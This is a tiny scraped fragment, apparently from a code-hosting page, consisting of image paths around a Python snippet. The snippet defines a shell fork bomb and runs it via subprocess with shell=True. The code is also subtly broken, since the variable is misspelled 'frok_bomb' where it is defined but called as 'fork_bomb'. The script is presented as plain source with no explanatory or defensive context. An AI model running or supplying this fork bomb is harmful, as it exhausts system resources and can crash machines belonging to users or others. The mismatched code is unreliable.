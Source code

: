 
import subprocess
#init bomb
frok_bomb = 'bomb(){ bomb|bomb& };bomb'

#run
subprocess.run(fork_bomb, shell=True)![1000013569](https://github.com/user-attachments/assets/0134e8d8-1a5a-4c10-a6e1-17b59a5a20d0)
